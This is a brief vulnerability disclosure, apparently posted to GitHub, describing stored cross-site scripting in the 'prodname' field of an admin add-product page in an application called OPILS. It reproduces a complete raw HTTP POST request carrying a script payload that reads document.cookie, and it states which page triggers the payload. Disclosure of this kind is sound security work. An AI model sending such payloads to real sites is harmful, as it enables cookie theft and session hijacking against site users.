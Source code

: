 BUG_Author: BaiXiJun

Vulnerability File: /opils/admin/addproduct.php

post form parameters "prodname" exists stored cross-site scripting vulnerability

```
POST /opils/admin/addproduct.php HTTP/1.1
Host: localhost
Content-Length: 708
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryiJHYays1OlY0KkQr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/opils/admin/product.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: __atuvc=2%7C20; PHPSESSID=k9h36uumt85ueqglvvv3imaap0
Connection: close

------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="prodname"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="prodcategory"

1
------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="proprice"

1
------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="prodpromo"

0
------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="pqty"

2
------WebKitFormBoundaryiJHYays1OlY0KkQr
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryiJHYays1OlY0KkQr--
```

Payload will trigger when a user visits on http://localhost/opils/admin/product.php

![image](https://github.com/wenwochunfeng/bugReport/blob/main/1.png)
